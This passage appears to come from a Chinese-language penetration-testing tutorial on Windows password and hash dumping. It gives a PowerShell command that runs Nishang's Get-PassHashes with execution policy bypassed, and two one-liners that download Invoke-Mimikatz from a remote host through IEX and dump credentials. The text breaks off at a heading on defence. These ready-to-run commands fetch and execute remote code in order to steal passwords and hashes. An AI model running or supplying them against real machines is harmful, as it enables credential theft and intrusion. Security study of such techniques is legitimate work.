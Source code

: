 ![](/assets/images/move/2020-07-04-11-12-46.png)

**7. 使用 Powershell 对散列值进行 Dump 操作**

Nishang/Get-PassHashes.ps1:

```cmd
powershell -exec bypass -Command "& {Import-Module Get-PassHashes.ps1; Get-PassHashes}"
```

![](/assets/images/move/2020-07-04-11-44-40.png)

**8. 使用 Powershell 远程加载 Mimikatz 抓取 Hash 和密码**

```cmd
powershell "IEX(New-Object System.Net.Webclient).DownloadString('http://host/Powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
powershell -version 2 "IEX(New-Object System.Net.Webclient).DownloadString('http://host/Powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

**- 单击密码抓取的防范 -**

